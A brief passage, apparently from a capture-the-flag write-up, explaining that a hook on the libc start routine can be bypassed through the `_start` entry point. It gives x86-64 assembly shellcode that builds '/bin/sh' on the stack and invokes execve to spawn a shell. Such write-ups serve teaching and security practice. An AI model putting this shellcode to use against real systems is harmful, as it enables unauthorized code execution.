 Since it only hooks `libc)start_main`, we can use `_start` segment to get shell:
```asm
section .text
  global _start
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    ;mov rdi, rsp
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    ;mov rsi, rsp
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```